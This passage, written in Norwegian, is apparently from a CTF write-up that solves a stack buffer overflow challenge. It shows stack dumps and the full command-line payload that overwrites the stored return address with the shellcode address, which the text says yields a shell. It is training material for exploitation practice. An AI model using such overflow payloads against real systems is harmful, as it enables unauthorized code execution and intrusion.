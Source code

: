 ```sh
stored rip       9b 80 22 9c d9 7f 00 00  |..".....|
stored rbp       c0 2a d0 95 40 56 00 00  |.*..@V..|
0x7ffc8e1eac38   f0 20 d0 95 40 56 00 00  |. ..@V..|
0x7ffc8e1eac30   00 00 00 00 00 00 00 00  |........|
&above           41 42 43 44 45 46 47 48  |ABCDEFGH|
0x7ffc8e1eac20   41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7ffc8e1eac18   41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7ffc8e1eac10   41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7ffc8e1eac08   41 41 41 41 41 41 41 41  |AAAAAAAA|
&buffer          41 41 41 41 41 41 41 41  |AAAAAAAA|
&below           61 62 63 64 65 66 67 68  |abcdefgh|
&width           08 00 00 00 00 00 00 00  |........|
&shellcode_ptr   30 30 30 30 30 30 00 00  |000000..|
&p               e0 ab 1e 8e fc 7f 00 00  |........|

above is correct!
Next step is to adjust the stored rip to point to shellcode
```

Her hintes det om at neste steg er å få `stored rip` til å peke til shellkoden vår. Her er en god del lesing av kildekoden for å komme frem til løsningen, og for en mye mer inngående forklaring kan man lese [Sithis' write-up fra 2020](https://github.com/williamsolem/Etjenesten-Cybertalent-CTF-Writeup#overflow).

Det man til syvende og sist er på jakt etter er minne-addressen til shellkoden:

```c
...
#include <string.h>
#include <errno.h>

#define SHELLCODE_ADDRESS 0x303030303030 <----
#define KGREEN "\033[01;32m"
...
```

Dette har vi sett før, og igjen kan vi konvertere hexadesimal verdiene til ASCII. Da vil vi se at `0x303030303030` blir til `0x0000000`.

_Her er også mulig å gjette seg til denne verdien ved å se litt på output'en fra `./overflow`. Vi ser at her er et område som heter `&shellcode_ptr` som vi kanskje kunne tenke oss til er [pekeren](<https://en.wikipedia.org/wiki/Pointer_(computer*programming)>) vi ser etter.*

Vi fyller opp den biten av minnet vi ikke trenger, før vi kommer opp til `stored rip` områder. Her legger vi inn 0-ene våre. Når vi kjører dette så vil vi ende opp med et shell, og herfra kan vi gjøre litt som vi vil:

```sh
 ./overflow AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGHAAAAAAAAAAAAAAAAAAAAAAAA000000

Before strcpy:
above = 0x               0
below = 0x6867666564636261

After strcpy:
above = 0x4847464544434241
below = 0x6867666564636261

Stackdump:
0x7ffec336e060   00 00 08 00 02 00 00 00  |........|
0x7ffec336e058   28 e1 36 c3 fe 7f 00 00  |(.6.....|
0x7ffec336e050   00 00 00 00 00 00 00 00  |........|
stored rip       30 30 30 30 30 30 00 00  |000000..|
stored rbp       41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7ffec336e038   41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7ffec336e030   41 41 41 41 41 41 41 41  |AAAAAAAA|
&above           41 42 43 44 45 46 47 48  |ABCDEFGH|
```
